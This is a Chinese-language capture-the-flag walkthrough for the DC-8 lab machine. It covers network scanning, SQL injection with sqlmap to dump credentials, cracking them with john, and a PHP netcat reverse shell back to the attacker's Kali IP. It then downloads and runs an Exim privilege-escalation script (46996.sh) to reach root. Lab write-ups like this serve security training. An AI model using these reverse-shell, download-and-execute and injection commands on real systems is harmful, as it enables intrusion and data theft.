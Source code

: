 ```yaml
---
title:  DC-8靶机
index: true
isOriginal : true
category:
  - 靶机
tag:
  - 靶机
---
```

1. 主机扫描使用arp-scan扫描工具  --localnet 扫描本地网络

    ![image](assets/image-20240823161457-pgp6fgl.png)

    ​`.1`​（通常是网关或路由器的地址）和`.255`​（广播地址）。而`.254`​ 经常被用作子网内的一个特殊设备（如DHCP服务器）的地址，但这不是一个固定的规则.
2. 使用Nmap端口扫描   -sV：探测开放端口以确定服务/版本信息；

    ​ **​`-p-`​** ​：这个选项告诉 Nmap 扫描目标上所有可能的端口（从 1 到 65535）。默认情况下，Nmap 只会扫描一些常见的端口，但使用 `-p-`​ 选项可以确保扫描所有端口

    ![image](assets/image-20240823161554-59k6g0p.png)
3. 使用dirsearch扫描目录 python3 dirsearch.py -u [target_url]  # 攻击目标url地址

    dirsearch -u 192.18.142 -e * -x 403 --random-agent

    ​`-e *`​ 参数表示使用所有内置的扩展名列表进行扫描

    ​`--random-agent`​ 在请求时使用随机的用户代理字符串，这有助于<span data-type="text" style="color: var(--b3-font-color11);">绕过</span>一些基于用户代理的访问控制或<span data-type="text" style="color: var(--b3-font-color11);">日志记录</span>。

    ​`-x 403`​ 参数在这里可能是想排除状态码为 403 Forbidden 的响应。

    ![image](assets/image-20240823161920-y7ou5i0.png)
4. 访问网站

    ![image](assets/image-20240823162555-zfdjykf.png)
5. 发现注入点

    ![image](assets/image-20240823162532-moh29a0.png)
6. sqlmap扫描

    ![image](assets/image-20240823162853-06gw6ag.png)
7. 发现存在注入

    布尔盲注、报错注入、时间盲注、联合查询

    ![image](assets/image-20240823162947-k74bvu6.png)
8. 扫描数据库

    sqlmap -u "http://192.168.18.142/?nid=1"<span data-type="text" style="color: var(--b3-font-color8);"> -dbs</span>

    ![image](assets/image-20240823163129-0rrigwx.png)

    ![image](assets/image-20240823163206-f78hkpj.png)
9. 根据数据库名扫描表

    sqlmap -u "http://192.168.18.142/?nid=1" -D d7db <span data-type="text" style="color: var(--b3-font-color8);">-tables</span>

    ![image](assets/image-20240823163307-9ifd68j.png)

    ![image](assets/image-20240823163507-clhbqmd.png)
10. 扫描users表

     ![image](assets/image-20240823163725-wpe8utp.png)

     得到后台账密

     ![image](assets/image-20240823163902-i0kh8wr.png)
11. 将密码复制出来保存到adpass.txt和johnpass.txt文件中，然后使用john工具进行爆破

     ![image](assets/image-20240823165442-hr30qfa.png)
12. 得到账户john的密码为turtle，账户admin的密码无法爆破

     使用dirb命令`dirb http://192.168.18.142`​  <span data-type="text" style="color: var(--b3-font-color9);">扫描网站目录和文件</span>

     dirb http://192.168.18.142

     ![image](assets/image-20240823165602-cbhqw6y.png)

     #### robots.txt

     是一个纯文本文件，在这个文件中网站管理者可以声明该网站中不想被robots访问的部分，robots.txt 文件规定了搜索引擎抓取工具可以访问您网站上的哪些网址。或者指定搜索引擎只收录指定的内容。

     当一个搜索机器人（有的叫搜索蜘蛛）访问一个站点时，它会首先检查该站点根目录下是否存在robots.txt
13. 登录上方页面找到登录地址

     ![image](assets/image-20240823165842-fy4d899.png)
14. 根据地址找到登录页面并登录

     ![image](assets/image-20240823170301-a66hd2d.png)
15. 然后将反弹shell的命令`  <?php system("nc -e /bin/bash 192.168.172.131 1234"); ?>   `IP地址为kali的IP地址  nc反向shell

     System()函数的主要功能是在系统权限允许的情况是执行系统命令
     ![image](assets/image-20240823170751-7fzsrm6.png)
16. 监听靶机

     ![image](assets/image-20240823171255-v45evn7.png)
17. 然后回到网站contact us的view页面，随便输入一些信息然后点击【submit】就可以反弹回shell

     ![image](assets/image-20240823171414-sf0oshv.png)
18. ![image](assets/image-20240823172027-9blx3e1.png)
19. 此时的shell不是交互式shell，所以使用命令`python -c "import pty; pty.spawn('/bin/bash')"`​获取一个交互式的shell

     ![image](assets/image-20240823172120-87zrua0.png)
20. 查看可以用于suid提权的命令    `find / -user root -perm -4000 -print 2>/dev/null`​ ★★

     * ​`find /`​：`find`​命令用于在目录树中搜索文件，并可以对搜索结果执行操作。这里的`/`​表示从<span data-type="text" style="color: var(--b3-font-color9);">根目录开始搜索整个系统</span>。
     * ​`-user root`​：这个选项告诉`find`​命令<span data-type="text" style="color: var(--b3-font-color9);">只查找属于用户</span>`root`​​​<span data-type="text" style="color: var(--b3-font-color9);">的文件</span>。`root`​是Linux系统中的超级用户，拥有对系统的完全访问权限。
     * ​`-perm -4000`​：这个选项用于查找具有特定权限的文件。`-perm`​后面跟的数字或符号<span data-type="text" style="color: var(--b3-font-color8);">表示文件的权限</span>。在这里，`-4000`​是一个特殊的权限位，它代表设置用户ID（<span data-type="text" style="color: var(--b3-font-color9);">SUID</span>）权限。当一个可执行文件具有SUID权限时，<span data-type="text" style="color: var(--b3-font-color10);">用户执行该文件时将以文件所有者的身份运行</span>（在这个例子中是`root`​）。这允许普通用户执行通常需要更高权限的操作。然
     * ​`-print`​：<u>​`find`​</u>​<u>命令默认会将找到的文件名输出到标准输出（通常是屏幕）。</u>​<u>​`-print`​</u>​<u>选项实际上在这里是隐式的，但明确写出来可以增强命令的可读性</u>。它告诉`find`​命令打印出找到的每个文件的路径。
     * ​`2>/dev/null`​：★★★**这部分是重定向的一部分**，用于处理错误消息。在shell中，`2`​​​​ <span data-type="text" style="color: var(--b3-font-color9);">代表标准错误</span>（stderr），而`>`​是重定向操作符。`/dev/null`​​​​ <span data-type="text" style="color: var(--b3-card-warning-color); background-color: var(--b3-card-warning-background);">是一个特殊的设备文件，通常被称为“空设备”或“黑洞”</span>。写入它的任何数据都会被丢弃，读取它时通常立即返回文件结束。因此，`2>/dev/null`​的意思是将<span data-type="text" style="background-color: var(--b3-font-background9);">所有标准错误输出重定向到</span>`/dev/null`​​​，这样就不会在屏幕上显示任何错误信息了。这对于<span data-type="text" style="color: var(--b3-font-color11);">忽略那些由于权限不足而无法访问的目录的错误消息</span>特别有用。

     ![image](assets/image-20240823172252-o2lclm6.png)
21. 发现一个比较奇怪的命令exim4，先查看一下命令版本   `/usr/sbin/exim4 --version`​

     ![image](assets/image-20240823172420-yd4wu1x.png)
22. ​`searchsploit exim 4`​     搜索可以利用的提权方法  选择使用46996.sh

     ![image](assets/image-20240823172747-pqj5ktm.png)
23. 使用靶机的wget命令将该脚本下载到靶机中，先将kali机的apache服务开启，命令`service apache2 start`​

     ![image](assets/image-20240823172859-ur2bqaa.png)
24. 将攻击脚本文件复制到Apache服务的根目录/var/www/html下，命令`cp /usr/share/exploitdb/exploits/linux/local/46996.sh /var/www/html/exp.sh`​

     ![image](assets/image-20240823172945-sucs3r3.png)
25. 在kali中使用set ff\=unix，告诉编译器，使用unix换行符，否则会无法使用脚本

     ![image](assets/image-20240823173330-wc4zp7y.png)

     ![image](assets/image-20240823173307-w46564x.png)
26. 在靶机反弹回来的shell处使用命令`wget http://192.168.172.131/exp.sh`​将脚本下载到靶机中

     由于前面目录没有权限所以换目录下载

     ![image](assets/image-20240823173820-3kumopa.png)

     ![image](assets/image-20240823173738-qnfdsv5.png)
27. 成功将exp.sh下载到靶机中，但是发现没有执行权限，使用命令`chmod +x exp.sh`​赋予脚本执行权限，并使用命令`./exp.sh -m netcat`​来执行脚本

     ![image](assets/image-20240823174320-u097but.png)

     ![image](assets/image-20240823175056-6wkl2da.png)
28. 提权成功，跳转到/root目录下即可查看flag

     ![image](assets/image-20240823175333-e6jwa9f.png)

‍
